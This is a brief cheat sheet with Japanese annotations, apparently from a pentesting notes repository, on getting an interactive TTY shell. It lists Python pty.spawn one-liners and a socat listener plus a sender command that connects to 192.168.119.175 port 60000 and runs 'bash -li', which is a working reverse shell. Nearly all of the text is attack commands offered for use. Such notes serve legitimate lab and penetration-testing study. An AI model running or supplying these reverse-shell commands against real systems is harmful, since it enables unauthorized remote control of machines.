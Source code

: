 # tty

### python

```bash
python* -c 'import pty; pty.spawn("/bin/sh")'
python2 -c 'import pty; pty.spawn("/bin/bash")'
```

※*にはバージョンを入れる



### Socat

```bash
# listener
socat file:`tty`,raw,echo=0 tcp-listen:60000

# sender
socat TCP4:192.168.119.175:60000 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

